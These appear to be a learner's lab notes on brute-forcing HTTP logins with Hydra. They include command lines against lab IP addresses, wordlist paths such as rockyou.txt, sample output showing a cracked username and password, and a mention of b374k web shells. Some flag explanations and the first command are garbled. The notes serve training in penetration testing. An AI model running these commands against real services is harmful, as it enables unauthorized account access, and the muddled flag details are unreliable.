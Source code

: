 so in hydra it is written in the form of :

```
hydra  -c /wordlistname.txt 94.237.53.115 -s 37235  http-git / 
```

  

## Username Brute Force

### wordlists:

rockyou.txt contains 14 million unique password.

`/home/joyhunter/tools/SecLists-master/Passwords/rockyou.txt`

  

for the passwords : rockyou.txt

for the UserNames : Names.tx

hydra always requires at least 3 specific flags if the whole credintials are in one single list to performm a brute force attack against a web service :

1. credentials
2. Target Host
3. Target Path

and in case the credintials are in two different files not compined together as a user:password then use flag `-L` for the username.list `-p` for the password.list.path

we can use also `-U` so that it also tries all users in each password instead of the reverse only .

we can brute force passwords for the `test` user by adding `-l test`, and then adding a password word list with `-P rockyou.txt`.

```
KareemAlsadeq@htb[/htb]$ hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 17 login tries (l:17/p:1), ~2 tries per task
[DATA] attacking http-get://178.35.49.134:32901/

[32901][http-get] host: 178.35.49.134   login: abbas   password: amormio
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

  

## Web Forms Brute Forcing:

## Hydra Modules

- many admin panels have a b374k shell that allow OS commands execution directly.
